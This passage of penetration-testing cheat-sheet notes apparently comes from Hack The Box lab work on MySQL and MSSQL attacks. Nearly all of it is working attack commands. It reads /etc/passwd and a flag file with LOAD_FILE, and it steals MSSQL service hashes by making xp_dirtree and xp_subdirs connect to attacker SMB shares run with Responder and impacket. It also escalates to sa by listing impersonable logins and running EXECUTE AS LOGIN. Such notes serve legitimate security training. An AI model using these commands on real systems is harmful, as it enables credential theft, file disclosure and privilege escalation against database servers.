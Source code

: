 #### MySQL - Read Local Files in MySQL
```shell-session
mysql> select LOAD_FILE("/etc/passwd");
select LOAD_FILE("C:/Users/Administrator/Desktop/flag.txt");
```


## Capture MSSQL Service Hash
#### XP_DIRTREE Hash Stealing
```cmd-session
1> EXEC master..xp_dirtree '\\10.10.14.112\share\'
2> GO
```

#### XP_SUBDIRS Hash Stealing
```cmd-session
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```

#### XP_SUBDIRS Hash Stealing with Responder
```shell-session
AhmaDb0x@htb[/htb]$ sudo responder -I tun0
```
#### XP_SUBDIRS Hash Stealing with impacket
```shell-session
AhmaDb0x@htb[/htb]$ sudo impacket-smbserver share ./ -smb2support
```

## Impersonate Existing Users with MSSQL
#### Identify Users that We Can Impersonate
```cmd-session
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO

name
-----------------------------------------------
sa
ben
valentin
```
#### Verifying our Current User and Role
```cmd-session
> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go

-----------
julio

 0

```
value `0` indicates, we do not have the sysadmin role, but we can impersonate the `sa` user.
```cmd-session
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO

```